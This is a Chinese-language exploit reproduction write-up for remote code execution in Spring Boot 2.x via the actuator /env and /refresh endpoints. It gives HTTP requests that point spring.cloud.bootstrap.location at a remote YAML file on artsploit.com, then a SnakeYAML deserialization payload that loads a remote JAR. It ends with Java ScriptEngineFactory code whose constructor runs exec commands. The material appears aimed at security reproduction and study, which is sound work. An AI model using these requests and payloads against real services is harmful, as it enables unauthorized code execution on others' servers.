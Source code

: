 ```yaml
---
title: "Spring Boot 修改环境属性导致的rce"
id: zhfly3130
---
```


# Spring Boot 修改环境属性导致的rce

## 一、漏洞简介

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

环境下载 https://github.com/ianxtianxt/actuator-testbed

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59 `spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml` 
```

该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“ / refresh”端点。

```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
] 
```

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了**'java.util.ServiceLoader＃load（java.lang.Class ，java.lang.ClassLoader）'**方法，该方法试图在所有库中查找'ScriptEngineFactory'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的'ScriptEngineFactory'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

```
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
    } catch (IOException e) {
        e.printStackTrace();
    } 
``` 
```

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用